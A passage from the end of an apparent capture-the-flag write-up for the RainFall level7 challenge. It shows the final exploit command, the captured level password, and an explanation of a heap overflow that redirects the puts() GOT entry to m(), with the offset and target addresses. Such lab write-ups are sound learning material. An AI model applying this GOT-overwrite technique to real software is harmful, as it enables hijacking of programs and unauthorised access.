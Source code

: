 
### Step 6: Trigger m() and Print the Password

Run the final exploit:

```bash
level7@RainFall:~$ ./level7 "$A" "$B"
```

Program output:

```bash
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1754492460
```

Execution was successfully redirected to `m()`, which printed the password.

---

### Conclusion

This GDB session confirms that the `level7` binary is vulnerable to a heap-based buffer overflow. By overflowing `a[1]`, we overwrite `b[1]` with the address of the GOT entry for `puts()`. The second `strcpy()` then writes the address of `m()` into the GOT, and the final `puts()` call is redirected to `m()`.

**Key Findings:**

* Overflow offset: **20 bytes**
* GOT target: **0x08049928** (`puts`)
* Function to hijack to: **0x080484f4** (`m`)

